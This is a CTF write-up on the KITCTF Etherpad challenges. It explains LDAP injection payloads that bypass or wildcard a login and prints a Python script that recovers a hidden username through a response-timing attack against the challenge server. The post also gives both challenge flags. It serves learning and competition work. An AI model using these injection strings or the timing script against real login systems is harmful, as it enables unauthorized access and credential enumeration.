 ```yaml
---
layout: post
current: post
cover: assets/kitctf/etherpad/cover.webp
navigation: True
title: "Etherpad 1 & 2"
date: 2023-01-02 10:00:00
tags: [KITCTFCTF, web]
class: post-template
subclass: 'post'
author: kyleburgess2025
---
```


LDAP me up, bro.

## Etherpad Part 1
We are given a link to an Etherpad instance and the password for an account. However, we are told that the username is unknown.

We are also told that the server is running Etherpad 1.8.18 with [ep_ldapauth 0.4.0](https://github.com/tykeal/ep_ldapauth/tree/42cd54c8f65ebb4b4c061b682be2acaf5486e0bc). Finally, we are given a JSON file titled "settings." This contained the LDAP auth settings. I looked into them, but didn't find anything worthwhile - pretty standard stuff.

### LDAP?

Let's talk about LDAP authentication. LDAP, or Lightweight Directory Access Protocol, is a "mature, flexible, and well supported standards-based mechanism for interacting with directory servers," according to [ldap.com](https://ldap.com). Generally, it is used to store hierarchical data about users, groups, and applications. Directory servers, notably, store trees of entries and are therefore NoSQL databases. Each LDAP entry has three primary components: a name (uniquely identifies entry and its position on the directory information tree hierarchy - similar to a file path), a collection of attributes, and a collection of object classes.

This is cool and all, but can we exploit it in some way?

### Putting the L in LDAP, amiright? Please laugh.

That's right baby, LDAP injection exists. And it's pretty straightforward, too - check out [this article](https://brightsec.com/blog/ldap-injection/) on LDAP injection in its many forms. It works just the same as SQL injection, but takes into account the LDAP protocol structure. For example, the statement ```(&(USER=Uname)(PASSWORD=Pwd))``` is often used in authentication. The ```&``` symbol checks to make sure both of the following statements are true; ie, both ```USER=Uname``` and ```PASSWORD=Pwd```. So, let's just say we need to log into the account with the username `kit`, but we do not know the password. We can input ```kit)(&)```, and the full query will become ```(&(USER=kit)(&))(PASSWORD=Pwd))```. This will only compare ```USER=kit``` and ```&```, which is the ```TRUE``` filter in the LDAP protocol. Therefore, the result will be true and the user will gain access without the password.

### The Solve
That's great and all, but in our case, we have the password, but we do not have the username. So, I started playing around with what I learned. An important filter in LDAP is ```*```. Similarly to SQL, it is the "all" filter. So, I tried inputting * as the username. Lo and behold, it worked! The flag was at the bottom of the page: `KCTF{nobody_escapes_ldap_filters}`

That got 16 solves. Come on, people.

## Etherpad Part 2

Alright, this is where it gets interesting. For this one, we know that the username is identical to the password for every account. Unfortunately, we do not know either. We do know that the username/password begins with "kctf{" and, using our amazing deductive skills, probably ends with "}". We also know that the flag format is ```kctf\{[a-z0-9{}_.]*\}```. 

### My Attempt
I should clarify - I did not figure this one out. I tried for ages to find the correct LDAP injection to crack this puzzle. I tried ```kctf\{*\}``` for the username, as it would get every entry of form "kctf{...}". I tried ```{{username}}``` for the password. I tried some tricky stuff with ANDs and ORs that were based on the attacks mentioned in the article above. Nothing seemed to work. But did I give up? Yes. After a few hours of scouring the internet, reading the ```settings.json``` file, and searching for version-specific exploits, I opted to take a nap rather than torment myself further. I am nothing if not a quitter.

### The Solution
The great news is I was not even close. The solution was not in LDAP injection at all - in fact, it was a TIMING ATTACK! So cool! Such a fan of that. Wow. You will notice that if you input a random word into the username field of the authentication, it takes around 1.8 seconds for a response. However, if you type in something that finds users, for example ```kctf\{*```, it will take upwards of 2.3 seconds for a response to be returned. We can use this to create a bruteforce attack:
* Cycle through all of the possible characters
* For each character char, test signing in with ```previous_username + char + *```
* If the response takes longer than 2.3 seconds, append this character to previous_username and try again
* Keep going until the character "}" is appended
It is important to note that we can automate this by testing usernames with the URL ```http://USERNAME:x@etherpad2.kitctf.me:9002/```. This will attempt to sign in with username ```USERNAME``` and will have the correct timing properties.

Here is the code for the correct solution, written by @eta#0667 on Discord.
```py
#!/usr/bin/env python3
import requests, time

# Possible characters in the username
character_list = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '\.', '_', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '\{', '\}']

# If the user exists, request will take longer than this many seconds
threshhold=2.3

flag = "kctf\{"
while True:
    for x in character_list:
        flag_try = flag+x
        response = requests.get("http://"+flag_try+"*:x@etherpad2.kitctf.me:9002/")
        elapsed = response.elapsed.total_seconds()
        print(f"{flag_try}:{response.status_code}:{elapsed}")
        if elapsed > threshhold:
            print(f"Found {flag_try}")
            flag = flag_try
            break
```
After a decent chunk of time this thing gave me the solution: `kctf{user_enumer4t1on_zer0day}`.

## Conclusion
I found these two challenges to be incredibly interesting simply because I had no prior experience with LDAP authentication. The first one was fun because I got to do a deep dive in LDAP injection, and then find out the solution required maybe 2 minutes of research. The second had a really cool solution, although I'm not sure I would have ever guessed a timing attack. Plus, I have the worst WiFi known to man so getting the timing attack to run correctly for, like, thirty minutes was a struggle. That's on me though. I had fun with these challenges and learned a lot!